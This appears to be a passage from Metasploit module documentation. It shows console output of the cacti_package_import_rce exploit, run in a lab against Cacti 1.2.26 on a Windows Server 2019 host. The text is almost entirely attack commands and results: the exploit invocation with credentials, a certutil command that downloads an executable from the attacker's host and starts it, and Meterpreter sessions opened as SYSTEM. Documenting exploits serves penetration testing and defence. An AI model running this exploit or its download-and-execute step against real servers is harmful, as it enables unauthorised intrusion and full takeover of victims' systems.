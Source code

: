 ```
[*] Triggering the payload
[*] Sending stage (39927 bytes) to 192.168.101.124
[+] Deleted C:/Apache24/htdocs/cacti/resource/WPo04nIf.php
[*] Meterpreter session 2 opened (192.168.101.1:4444 -> 192.168.101.124:54654) at 2024-05-22 15:28:56 +0200

meterpreter > getuid
Server username: SYSTEM
meterpreter > sysinfo
Computer    : DC02
OS          : Windows NT DC02 10.0 build 17763 (Windows Server 2019) AMD64
Meterpreter : php/windows
```

- Target 2 (Windows Command)
```
msf6 exploit(multi/http/cacti_package_import_rce) > exploit verbose=true rhosts=192.168.101.124 lhost=192.168.101.1 username=msfuser password=12345678

[*] Command to run on remote host: certutil -urlcache -f http://192.168.101.1:8080/Qy-qOX10kZIXJGk3Q336Lg %TEMP%\cpOhjtfIddh.exe & start /B %TEMP%\cpOhjtfIddh.exe
[*] Fetch handler listening on 192.168.101.1:8080
[*] HTTP server started
[*] Adding resource /Qy-qOX10kZIXJGk3Q336Lg
[*] Started reverse TCP handler on 192.168.101.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking Cacti version
[+] The web server is running Cacti version 1.2.26
[*] Attempting login with user `msfuser` and password `12345678`
[+] Logged in
[*] Checking permissions to access `package_import.php`
[+] The target appears to be vulnerable.
[*] Uploading the package
[*] Triggering the payload
[*] Client 192.168.101.124 requested /Qy-qOX10kZIXJGk3Q336Lg
[*] Sending payload to 192.168.101.124 (Microsoft-CryptoAPI/10.0)
[*] Client 192.168.101.124 requested /Qy-qOX10kZIXJGk3Q336Lg
[*] Sending payload to 192.168.101.124 (CertUtil URL Agent)
[*] Sending stage (201798 bytes) to 192.168.101.124
[+] Deleted C:/Apache24/htdocs/cacti/resource/9PxU2R.php
[*] Meterpreter session 4 opened (192.168.101.1:4444 -> 192.168.101.124:54669) at 2024-05-22 15:30:20 +0200
[!] This exploit may require manual cleanup of 'C:/Apache24/htdocs/cacti/resource/cpOhjtfIddh' on the target

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DC02
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : MYLAB
Logged On Users : 9
Meterpreter     : x64/windows
```
